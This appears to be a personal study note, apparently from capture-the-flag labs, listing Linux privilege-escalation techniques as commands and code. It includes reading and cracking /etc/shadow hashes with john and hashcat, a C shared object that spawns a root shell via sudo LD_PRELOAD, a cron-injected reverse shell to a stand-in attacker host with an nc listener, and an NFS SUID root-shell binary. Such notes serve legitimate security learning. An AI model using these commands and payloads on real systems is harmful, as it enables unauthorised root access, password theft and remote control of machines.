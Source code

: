 [[linux]]
#### Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `sudo -l`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	* `unshadow /etc/passwd /etc/shadow > combined.txt`
	* `jonh --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
	   * `hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` [[hashcat]]
    
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/

#### SUID
[[suid]]
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins

#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins

#### Cron
[[cron]]
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`

#### PATH
 If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
![[Pasted image 20250118162215.png]]
Find writable dirs:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
![[Pasted image 20250118162417.png]]
![[Pasted image 20250118162441.png]]

#### NFS
[[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```

## tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com

Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
or
`ss -tl`
## Misc
* `ss -tunlp` to find hidden ports [[ss]]
* sudo -l
* crontabs
* winpeas & inpeas 